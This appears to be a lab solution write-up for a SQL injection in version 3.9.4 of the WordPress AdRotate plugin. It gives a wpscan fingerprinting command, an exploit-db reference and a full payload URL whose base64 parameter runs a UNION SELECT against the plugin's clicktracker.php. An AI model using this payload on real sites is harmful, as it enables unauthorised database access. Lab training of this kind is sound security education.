








<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">WordPress AdRotate </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=446>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Real World Webapps : SQL Injection </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Solution:**  

**Step 1:** Inspect the web application. ![ref1]

**Step 2:** Search on google “WordPress AdRotate sql injection” and look for publically available exploits.**  

There are exploits for two versions. Find out the version of adrotate plugin using wpscan. ![ref1]**Command:** wpscan --url http://js0xv5d004n6af91zdbend7k1.public1.attackdefenselabs.com/ 

The version of adrotate plugin is 3.9.4 

The exploit db link for corresponding version of adrotate plugin contains the SQL Payload along with the information required to exploit the vulnerability. 

**Exploit DB Link: <https://www.exploit-db.com/exploits/31834>** ![ref1]

**Step 3:** Use the URL containing the SQLI payload provided at exploit db link to exploit the vulnerability.  

**URL:** http://js0xv5d004n6af91zdbend7k1.public1.attackdefenselabs.com/wp-content/plugins/adrotate/l ibrary/clicktracker.php?track=LTEgVU5JT04gU0VMRUNUIHZlcnNpb24oKSwxLDEsMQ== 

Upon navigating to the above URL, a redirection will occur leading to 404 not found error. ![ref1]

The MySQL Server version is revealed.  **References:**  

1. AdRotate Banner Manager (<https://wordpress.org/plugins/adrotate/>)  ![ref1]
1. WordPress Plugin AdRotate 3.9.4 - 'clicktracker.ph?track' SQL Injection (<https://www.exploit-db.com/exploits/31834>)  
1. Wpscan (<https://wpscan.org/>)  

[ref1]: Aspose.Words.0ddfa624-7c4a-4001-9d37-076254e3bcb1.003.png
